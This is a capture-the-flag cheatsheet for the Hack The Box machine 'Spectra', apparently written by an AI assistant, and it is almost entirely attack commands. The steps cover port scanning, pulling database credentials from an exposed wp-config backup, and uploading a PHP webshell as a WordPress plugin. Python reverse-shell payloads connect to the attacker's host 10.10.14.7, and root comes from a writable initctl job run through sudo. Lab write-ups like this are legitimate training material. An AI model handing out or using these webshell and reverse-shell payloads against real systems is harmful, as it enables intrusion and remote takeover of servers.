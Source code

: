 # HTB: Spectra — Command Cheatsheet

## 📉 Box Info
- **Name:** Spectra
- **IP:** 10.10.10.229
- **OS:** ChromeOS
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.229
nmap -p 22,80,3306 -sCV -oA scans/nmap-tcpscripts 10.10.10.229
```

---

## 🤖 Hosts Setup
```bash
echo "10.10.10.229 spectra.htb" | sudo tee -a /etc/hosts
```

---

## 🔗 Enumerate [WordPress](HTTP)
```bash
# Look for .save file
curl http://spectra.htb/testing/wp-config.php.save

# Credentials found:
DB_USER=devtest
DB_PASS=devteam01

# Try login
wpscan --url http://spectra.htb/main -e ap,t,tt,u --api-token <your-token>
```

---

## 👤 WP Admin Login
```bash
# Username: administrator
# Password: devteam01
```

---

## 📂 Webshell via Plugin (Option A)
```php
# Create 0xdf.php with:
<?php system($_REQUEST["0xdf"]); ?>

# Zip it:
zip 0xdf-plug.zip 0xdf.php

# Upload via WP Admin ➝ Plugins ➝ Upload Plugin

# Access shell:
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php?0xdf=id
```

---

## 🚧 Reverse Shell (from WP Webshell)
```bash
# Listener
nc -lnvp 443

# Payload
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php \
  --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

---

## 🔎 Lateral Movement (Find creds)
```bash
cat /etc/lsb-release
cat /etc/autologin/passwd  # => SummerHereWeCome!!
```

---

## 🔐 [SSH](SSH) as Katie
```bash
sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
```

---

## 🔒 Root Escalation
```bash
# Sudo permissions
sudo -l
# ➝ /sbin/initctl

# Editable conf:
ls /etc/init/*.conf  # choose test.conf or make your own

# Add to script block:
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Start service:
sudo initctl start test
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📑 Resources
- https://book.hacktricks.xyz/pentesting/wordpress
- https://gtfobins.github.io/gtfobins/initctl/
- https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/44449.rb

Let me know if you want a visual breakdown or plugin-based method only ✨

